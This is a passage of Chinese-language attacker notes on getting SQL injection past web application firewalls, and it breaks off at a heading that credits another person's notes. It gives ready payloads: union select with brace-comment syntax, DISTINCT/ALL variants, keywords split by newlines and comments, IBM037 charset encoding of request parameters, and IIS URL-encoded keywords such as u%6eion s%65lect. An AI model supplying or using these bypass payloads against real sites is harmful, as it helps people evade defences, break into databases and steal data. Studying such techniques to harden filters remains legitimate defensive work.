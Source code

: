 select 1,2 union select {x 1},user()

花括号里边左边是注释的内容

这样可以绕过waf拦截

 

ALL或者DISTINCT绕过

去掉重复值

select 1,2 from users where user_id=1 union DISTINCT select 1,2

select 1,2 from users where user_id=1 union select DISTINCT 1,2

显示全部

select 1,2 from users where user_id=1 union all select 1,2

select 1,2 from users where user_id=1 union select all 1,2

 

换行混绕绕过

目前一些waf对某些连接起来的字符会进行过滤

我们使用换行符加上注释符将连接起来的字符分来

 就可以实行绕过

 

HTTP数据编码绕过

通常waf只坚持他所识别的编码

但是服务器可以识别更多的编码

因此我们只需要将payload按照waf识别不了但是服务器能解析识别的编码就可以绕过

如ibm036编码

未编码

id=123&pass=pass%3d1

透过 IBM037 编码

%89%84=%F1%F2%F3&%97%81%A2%A2=%97%81%A2%A2~%F1

但要注意在Content-Type里添加charset=ibm037

 

url编码绕过

iis中会自动将url编码转换成字符串到程序中去执行

利用这个性质可以将union select 转换成 u%6eion s%65lect

 

union select 绕过

这里我就直接抄月师傅的笔记了

针对单个关键词绕过
